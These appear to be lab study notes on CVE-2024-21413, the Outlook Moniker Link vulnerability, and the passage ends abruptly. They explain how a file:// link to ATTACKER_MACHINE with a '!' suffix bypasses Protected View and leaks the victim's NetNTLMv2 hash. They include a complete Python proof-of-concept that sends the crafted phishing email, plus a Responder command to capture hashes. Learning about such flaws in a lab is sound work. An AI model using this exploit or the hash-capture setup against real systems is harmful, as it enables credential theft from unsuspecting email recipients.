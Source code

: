 - Outlook can render emails as HTML.
- Outlook parses hyperlinks such as HTTP and HTTPS.
- However, it also opens URLs specifying applications knows as **Moniker Links**.
- Normally, outlook will prompt a security warning for this which opens emails containing attachments, hyperlinks and similar content in read-only mode.
- We can use `file://` Moniker Link as our hyperlink.
- Since outlook renders emails as HTTP/HTTPS, we can also instruct outlook to access files on network share.
	- ```<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>```	
		- Protocol used: **SMB**
		- Uses local credentials for authentication.
		- Outlook's protected view catches and blocks it.
	- So we can modify the above by using a `!` character and some text.
		- Bypasses the outlook's protected view.
		- ```<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>```
		- The share we are accessing doesn't need to exist on the remote device.
		- An authentication attempt will happen regardless of if the share exists or not.
		- This leads to victim's windows netNTLMv2 hash being sent to the attacker.
	- Also **Remote Code Execution** (RCE) is also possible since Moniker Link uses Component Object Model (COM) on windows.
#### Exploitation
- To exploit this vulnerability, lets assume a scenario.
- Attacker = us.
- We email our victim with Moniker Link.
- **Objective:** Craft an email to the victim with Moniker Link that bypasses Outlook's "Protected View".
- In the email:
	- Client (victim) will attempt to load a file from our attacking machine.
	- Results in victim's netNTLMv2 hash being captured.
- **PoC:**
	
	```python
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

- The PoC:
	- Takes an attacker & victim email. Normally, we would need to use our own SMTP server.
	- Requires the password to authenticate.
	- Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink.
	- Then, fill in the "subject", "from" and "to" fields in the email.
	- Finally, it sends the email to the mail server.
- Let's use the **Responder** to create an SMB listener on our attack machine.
	- We can also use an **Impacket server** for the above.
	- `responder -I <interface name>`
- 